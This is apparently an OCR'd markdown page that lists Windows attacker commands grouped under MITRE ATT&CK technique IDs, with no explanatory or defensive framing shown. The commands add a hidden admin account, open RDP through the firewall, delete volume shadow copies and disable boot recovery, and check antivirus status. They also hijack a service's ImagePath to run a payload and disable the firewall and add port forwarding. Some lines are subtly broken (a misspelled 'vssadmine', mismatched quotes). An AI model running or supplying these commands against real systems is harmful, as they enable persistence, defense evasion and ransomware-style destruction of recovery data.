 ```
net user sys <username> /add
net localgroup %AdmGroup% sys /add
```
<br>

Remote Services: Remote Desktop Protocol [[T1021.001](https://attack.mitre.org/techniques/T1021/001/)]

```
net localgroup "%RDPGroup%" sys /add
netsh advfirewall firewall add rule name= "Open Port 3389" dir=in action=allow protocol=TCP localport=3389
```
<br>

Inhibit System Recovery [[T1490](https://attack.mitre.org/techniques/T1490/)]

```
wmic shadowcopy delete
powershell.exe -Command "Get-WmiObject Win32_Shadowcopy | Remove-WmiObject
vssadmine delete shadows /all /quiet
bcdedit /set {default} recoveryenabled No
bcdedit /set {default} bootstatuspolicy ignoreallfailures
```
<br>

Software Discovery: Security Software Discovery [[T1518.001](https://attack.mitre.org/techniques/T1518/001/)]

```
WMIC /Node:localhost /Namespace:\\remotepath Path AntiVirusProduct Get * /Format:List
sc query WinDefend
```

```
Get-MpComputerStatus
```
<br>

Modify System Image [[T1601](https://attack.mitre.org/techniques/T1601/)]

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\<vulnerable_service_name>" /v ImagePath /t REG_SZ /d "C:\pathto\<payload.ext>”
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControl001\Services\<vulnerable_service_name>" /v ImagePath /t REG_SZ /d "C:\pathto\<payload.ext>”
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControl002\Services\<vulnerable_service_name>" /v ImagePath /t REG_SZ /d "C:\pathto\<payload.ext>”
```
<br>

Impair Defenses: Disable or Modify System Firewall [[T1562.004](https://attack.mitre.org/techniques/T1562/004/)]

```
netsh advfirewall set currentprofile state off
netsh interface portproxy add v4tov4 listenaddress=<ip_address> listenport=<listening_port> connectaddress=<internal_ip_address> connectport=<connect_port> protocol=tcp”
netsh advfirewall firewall add rule dir=in name="<name>" program=<file_path> service=rpcss action=allow protocol=TCP localport=<port>
```
<br>
